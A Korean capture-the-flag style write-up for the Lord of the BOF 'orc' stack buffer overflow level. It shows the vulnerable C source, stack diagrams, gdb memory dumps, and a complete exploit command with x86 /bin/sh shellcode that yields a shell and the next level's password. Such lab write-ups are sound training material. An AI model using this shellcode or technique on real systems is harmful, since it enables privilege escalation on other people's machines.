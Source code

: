 ============================================================================================================
[redhat-lob] orc
============================================================================================================


.. graphviz::

    digraph foo {
        a -> b -> c -> d -> e;

        a [shape=box, label="argv[1]"];
        b [shape=box, color=lightblue, label="strcpy"];
        c [shape=box, label="Buffer Overflow"];
        d [shape=box, label="RET"];
        e [shape=box, label="argv[1] address"];
    }


|

Source Code
============================================================================================================

lob 문제의 경우 소스코드가 공개되어 있으며, 소스코드는 다음과 같다.

.. code-block:: c

    #include <stdio.h>
    #include <stdlib.h>

    extern char **environ;

    main(int argc, char *argv[])
    {
        char buffer[40];
        int i;

        if(argc < 2){
            printf("argv error\n");
            exit(0);
        }

        // egghunter
        for(i=0; environ[i]; i++)
            memset(environ[i], 0, strlen(environ[i]));

        if(argv[1][47] != '\xbf')
        {
            printf("stack is still your friend.\n");
            exit(0);
        }

        strcpy(buffer, argv[1]);
        printf("%s\n", buffer);
    }


|

Vulnerabliity Vector
============================================================================================================

스택 메모리 공간에 다음과 같이 들어가게 된다.
사이즈가 40바이트인 char 형 변수 배열 buffer가 선언되어 있는데, argv[1][47]=="\\bf" 조건을 만족하면 오버플로우가 발생한다.


.. code-block:: console

    ================
    LOW     
    ----------------
    Buffer  (40byte)
    SFP     (4byte)
    RET     (4byte)  <- strcpy overflow
    argc    (4byte)
    argv    (4byte)
    ----------------
    HIGH    
    ================

|

Buffer Overflow
============================================================================================================

strcpy에서 argv[1] 인자 값을 통해 buffer 변수에 입력될 때, argv[1][47]=="\\bf" 조건을 만족하고 값이 버퍼보다 클 경우 오버플로우가 발생된다.

※ 시작시 bash2 명령을 입력하고 bash2 쉘 상태에서 진행

.. code-block:: console

    $ ./orc `python -c 'print "a"*47'`

    stack is still your friend.

    $ ./orc `python -c 'print "a"*47+"\xbf"'`

    aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa▒
    Segmentation fault


|

exploit
============================================================================================================

기존 문제들의 경우 환경 변수에 쉘코드를 삽입하여 해당 영역으로 RET를 할 수 있었으나, 해당 문제는 environ을 초기화하여 환경 변수 사용이 불가능하다.

argv[1]이 저장되는 주소 확인
------------------------------------------------------------------------------------------------------------

앞의 조건에 argv[1][47]값이 "\\xbf"인지 확인하기 때문에, gdb를 이용하여 argv[1]이 저장되는 주소(buffer)를 찾는다.

.. code-block:: console

    (gdb) b *main
    Breakpoint 1 at 0x8048500

    (gdb)
    Note: breakpoint 1 also set at pc 0x8048500.
    Breakpoint 2 at 0x8048500

    (gdb) r `python -c 'print "a"*47+"\xbf"'`
    Starting program: /home/goblin/orc1 `python -c 'print "a"*47+"\xbf"'`

    Breakpoint 1, 0x8048500 in main ()

    (gdb) stepi
    0x8048501 in main ()

    (gdb) i reg $esp
    esp            0xbffffaf8       -1073743112

    (gdb) i reg $ebp
    ebp            0xbffffb18       -1073743080

    (gdb) x/100x $esp

    ==========================================================================
    0xbffffaf8:     0xbffffb18      0x400309cb      0x00000002      0xbffffb44
    0xbffffb08:     0xbffffb50      0x40013868      0x00000002      0x08048450
    0xbffffb18:     0x00000000      0x08048471      0x08048500      0x00000002
    0xbffffb28:     0xbffffb44      0x08048390      0x0804860c      0x4000ae60
    0xbffffb38:     0xbffffb3c      0x40013e90      0x00000002      0xbffffc37
    0xbffffb48:     0xbffffc49      0x00000000      0xbffffc7a      0xbffffc9c
    0xbffffb58:     0xbffffca6      0xbffffcb4      0xbffffcd3      0xbffffce2
    0xbffffb68:     0xbffffcfb      0xbffffd17      0xbffffd36      0xbffffd41
    0xbffffb78:     0xbffffd4f      0xbffffd91      0xbffffda3      0xbffffdb8
    0xbffffb88:     0xbffffdc8      0xbffffdd4      0xbffffdf2      0xbffffdfd
    0xbffffb98:     0xbffffe0e      0xbffffe1f      0xbffffe27      0x00000000
    0xbffffba8:     0x00000003      0x08048034      0x00000004      0x00000020
    0xbffffbb8:     0x00000005      0x00000006      0x00000006      0x00001000
    0xbffffbc8:     0x00000007      0x40000000      0x00000008      0x00000000
    0xbffffbd8:     0x00000009      0x08048450      0x0000000b      0x000001f7
    0xbffffbe8:     0x0000000c      0x000001f7      0x0000000d      0x000001f7
    0xbffffbf8:     0x0000000e      0x000001f7      0x00000010      0x0fabfbff
    0xbffffc08:     0x0000000f      0xbffffc32      0x00000000      0x00000000
    0xbffffc18:     0x00000000      0x00000000      0x00000000      0x00000000
    0xbffffc28:     0x00000000      0x00000000      0x36690000      0x2f003638
    0xbffffc38:     0x656d6f68      0x626f672f      0x2f6e696c      0x3163726f
    0xbffffc48:     0x61616100      0x61616161      0x61616161      0x61616161 
                          ^               ^               ^ argv[1] = 0xbffffc51
    0xbffffc58:     0x61616161      0x61616161      0x61616161      0x61616161
    0xbffffc68:     0x61616161      0x61616161      0x61616161      0x61616161
    0xbffffc78:     0x454c00bf      0x504f5353      0x7c3d4e45      0x7273752f
    ==========================================================================



RET 주소를 argv[1] 주소로 변경하여 공격 진행
------------------------------------------------------------------------------------------------------------

.. code-block:: console

    ================
    LOW     
    ----------------
    Buffer  (40byte) <- "\x90"*19 + shellcode (21)
    SFP     (4byte)  <- shellcode (4)
    RET     (4byte)  <- argv[1] address
    argc    (4byte)
    argv    (4byte)
    ----------------
    HIGH    
    ================

|

오버플로우시 RET 주소를 argv[1] 주소로 변경하여 해당 쉘코드가 실행되도록 한다. buffer의 최초 주소값을 확인하여 4바이트씩 증가하면서 주소를 변경하면서 공격을 진행하면 성공시킬 수 있다.

nop (19 byte) + shellcode (25 byte) + argv[1] address

.. code-block:: console

    $ ./orc `python -c 'print "\x90"*19 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80" + "\x4c\xfc\xff\xbf"'`
    ▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒1▒Ph//shh/bin▒▒PS▒▒°
                                           ̀L▒▒▒
    Segmentation fault
    
    $ ./orc `python -c 'print "\x90"*19 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80" + "\x51\xfc\xff\xbf"'`
    ▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒1▒Ph//shh/bin▒▒PS▒▒°
                                           ̀Q▒▒▒
    bash$ whoami
    orc
    bash$ my-pass
    euid = 504
    cantata

